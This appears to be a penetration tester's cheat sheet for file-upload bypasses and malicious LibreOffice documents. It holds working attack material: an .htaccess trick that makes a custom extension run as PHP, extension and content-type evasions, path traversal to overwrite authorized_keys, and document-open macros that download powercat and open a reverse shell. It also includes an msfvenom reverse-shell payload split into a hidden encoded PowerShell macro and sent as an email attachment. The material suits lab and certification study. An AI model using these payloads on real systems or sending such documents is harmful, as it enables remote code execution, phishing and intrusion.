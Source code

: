 #### Overriding the Server Confiugration

```
#Upload a custom .htaccess file. (https://br4ind3ad.medium.com/port-swigger-file-upload-vulnerability-lab-4-4c2bf39eeaf)
#This means all files with the extension evil with execute as PHP.
AddType application/x-httpd-php .evil
```

#### Flawed File Type Validation
```
#Is it validating by the content-type header?
1. Create your malicious file.
2. Upload and intercept the request.
3. Change the content-type header to match what the application is expecting.
4. Browse to y
```

#### Insufficient Blacklisting of Dangerous File Types 

```
#Modify the original extension
eg. phps, pHp, php7, phtml.
```


### Over Writing
![[Pasted image 20231205204847.png]]

The response shows the ../../ indicating we may be able to overwrite files.

Create a SSH key and authroized_keys file.

![[Pasted image 20231205205001.png]]

Select your file and edit the path to overwrite a folder.

![[Pasted image 20231205205011.png]]


## LibreOffice

### Method 1
#### ODT / ODS
```
Reference: https://al1z4deh.medium.com/proving-grounds-craft-c92de878e004 OR https://dominicbreuker.com/post/htb_re/

#Steps In LibreOffice (ODT) or LibreCalc (ODS)
1. Create new document.
2. Add macro: Tools -> Macros -> Organise Macros -> Basic
3. Assign Macro Open Document Event.
4. Edit new Macro.

REM  ***** BASIC *****

Sub Main
	Shell("cmd /c powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>/powercat.ps1'); powercat -c <ip> -p <port> -e powershell"")
End Sub

4. Might pay to just do a curl first to test the code execution is working.

```

### Method 2 

```
#Generates ODF file which can be used to leak NTLM credentials.
https://www.exploit-db.com/exploits/44564
```


### Method 3
#### ODT / ODS

```
1. #Generate payload
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.8 LPORT=443 -f hta-psh -o evil.hta

2. Split payload. Using this python3 script.
s = "<payload here>"

n = 50
for i in range(0, len(s), n):
    chunk = s[i:i + n]
    print('Str = Str + "' + chunk + '"')

3. Create new macro in Libre (Refer to method 1 steps.)
4. Drop payload in it should look like something below:

Sub Exploit

   Dim Str As String

   Str = Str + "cmd.exe /C powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
   Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
   Str = Str + "AUwAyAEIAMABLAEEAQQBBAD0AJwAnACkAKQApACwAWwBTAHkAc"
   Str = Str + "wB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgA"
   Str = Str + "uAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6A"
   ...
   Str = Str + "EQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQ"
   Str = Str + "AbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZ"
   Str = Str + "QBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJAB"
   Str = Str + "zAC4AUgBlAGQAaQByAGUAYwB0AFMAdABhAG4AZABhAHIAZABPA"
   Str = Str + "HUAdABwAHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQ"
   Str = Str + "AbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAc"
   Str = Str + "wAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAB"
   Str = Str + "yAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnA"
   Str = Str + "G4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFM"
   Str = Str + "AdABhAHIAdAAoACQAcwApADsA"

   Shell(Str)

End Sub

5. Send payload

sendemail -f 'jonas@localhost' \
                       -t 'mailadmin@localhost' \
                       -s 192.168.120.132:25 \
                       -u 'Your spreadsheet' \
                       -m 'Here is your requested spreadsheet' \
                       -a bomb.ods

```